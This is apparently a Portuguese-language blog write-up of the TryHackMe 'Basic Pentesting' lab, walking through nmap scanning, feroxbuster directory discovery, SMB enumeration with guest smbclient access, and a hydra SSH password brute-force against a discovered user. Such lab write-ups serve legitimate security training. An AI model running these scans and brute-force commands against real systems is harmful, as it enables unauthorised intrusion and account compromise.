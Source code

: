 ```yaml
---
title: 'TryHackMe: Basic Pentesting'
author: Kertonli
categories: [TryHackMe]
tags: [Fácil, Nmap, Feroxbuster, Smbclient, Hydra]
image:
  path: assets/images/tryhackme/basicpentesting/room.png
---
```


Olá, Bom dia a todos! Mais um desafio do site tryhackme fresquinho direto do forno para nós completarmos. 

O site está pedindo para nós: "Find the services exposed by the machine" [1], então vamos rodar o nosso famoso NMAP:

``` 
nmap -T4 -sC -sV -Pn -p- 10.10.137.173
```

O site também pergunta: "What is the name of the hidden directory on the web server(enter name without /)?" [2]

Para essa vamos rodar o feroxbuster na porta 80 (webserver), o bom é que o feroxbuster
faz uma busca com recursividade então ele encontra arquivos e diretórios com o comando padrão sem argumento
o problema é que ele faz muito mais requisições que o gobuster por exemplo, logo é mais ruidoso. (https://github.com/epi052/feroxbuster)

![alt text](assets/images/tryhackme/basicpentesting/image1.png)

```
feroxbuster -u http://10.10.137.173/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt -r
```

Com feroxbuster conseguimos a resposta para [2] e descobrimos algumas rotas interessantes:

![alt text](assets/images/tryhackme/basicpentesting/image2.png)

![alt text](assets/images/tryhackme/basicpentesting/image3.png)

Ok, só de ler as mensagens já temos uma ideia de que temos que explorar /etc/shadow e provavelmente esses servidores SMB. Vou começar chamando scripts nmap para smb

![alt text](assets/images/tryhackme/basicpentesting/image4.png)

(meu alvo mudou para 10.10.86.35)

```
nmap -p 139,445 --script smb-enum-shares.nse 10.10.86.35
```

Com a saída do nmap podemos acessar usando o usuário guest

```
smbclient //10.10.86.35/Anonymous -U guest
```

Observando o arquivo staff.txt obtivemos dois nomes no arquivo staff.txt: 
```
cat staff.txt
Announcement to staff:

PLEASE do not upload non-work-related items to this share. I know it's all in fun, but
this is how mistakes happen. (This means you too, Jan!)

-Kay
```

Ok agora teoricamente é uma boa tentar fazer um ataque de força bruta pois ja temos dois usuários: jan e kay. Vamos fazer no ssh da porta 22.

```
hydra -l jan -P /usr/share/seclists/Passwords/darkweb2017-top10000.txt 10.10.86.35 ssh -t 4
```